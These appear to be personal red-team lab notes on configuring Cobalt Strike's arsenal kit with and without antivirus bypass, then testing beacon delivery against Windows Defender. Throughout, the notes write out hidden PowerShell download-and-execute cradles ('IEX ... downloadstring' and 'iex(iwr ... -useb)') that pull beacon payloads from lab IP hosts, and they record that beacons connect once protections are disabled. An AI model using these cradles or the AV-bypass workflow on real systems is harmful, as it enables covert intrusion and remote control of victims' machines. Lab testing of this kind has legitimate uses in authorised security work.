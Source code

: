 ### Goal:
***didnt go this route***
going to make a script that gives an option to use default `resource kit` and default `artifact kit` for systems that dont require `AV` bypass, as well as an option to 


### Maybe Goal:
- Since the `resource kit` and `artifact kit` are built using `build_arsenal_kit.sh` should just be able to turn `ON/OFF` `AV bypass` by changing the script that `Cobalt Strike` utilizes.

current `Script` that bypasses `AV`
![[Pasted image 20250317154727.png]]
so unload that one and load a `arsenal_kit.cna` that was built with `default cobalt new load` at `/home/kali/tools/cobaltstrike/arsenal-kit/dist/arsenal_kit.cna`
![[Pasted image 20250317154902.png]]
now that its loaded going to test `Resource Kit` and `Artifact Kit` 

creating `http` listener

![[Pasted image 20250317154946.png]]
creating payloads in `/home/kali/SUT/Beacons`

![[Pasted image 20250317155201.png]]

hosting file at `/resource` with `scripted web delivery`

![[Pasted image 20250317155322.png]]
`powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.127.129:80/resource'))"`

making sure `security` is `on`

![[Pasted image 20250317155423.png]]
testing to see if gets caught

```bash
iex(iwr http://192.168.127.129/resource -useb)
```
gets caught which is good
![[Pasted image 20250317155543.png]]
now testing `resource` but turning off all threat protection
![[Pasted image 20250317155641.png]]
able to catch beacon with protections off
![[Pasted image 20250317155705.png]]

changing the default `/home/kali/tools/cobaltstrike/arsenal-kit/dist/arsenal_kit.cna` name to `arsenal_kit-NO-AV-BYPASS.cna` and testing again - making sure defender back on

![[Pasted image 20250317160632.png]]
reloaded with new name
![[Pasted image 20250317160657.png]]
created listener
![[Pasted image 20250317160719.png]]
generating payloads
![[Pasted image 20250317160745.png]]
doing  `scripted web delivery` again with `resource2`
![[Pasted image 20250317160823.png]]
`iex(iwr http://192.168.127.129/resource2 -useb)`
still caught - which is good
![[Pasted image 20250317160908.png]]
turning off defender again and trying again to make sure it works
![[Pasted image 20250317160954.png]]

![[Pasted image 20250317161012.png]]
caught beacon - good to go
![[Pasted image 20250317161028.png]]

No AV- BYpass
```bash
iex(iwr http://192.168.179.130/a -useb) 
```

AV
```bash
iex(iwr http://192.168.179.130/b -useb) 
```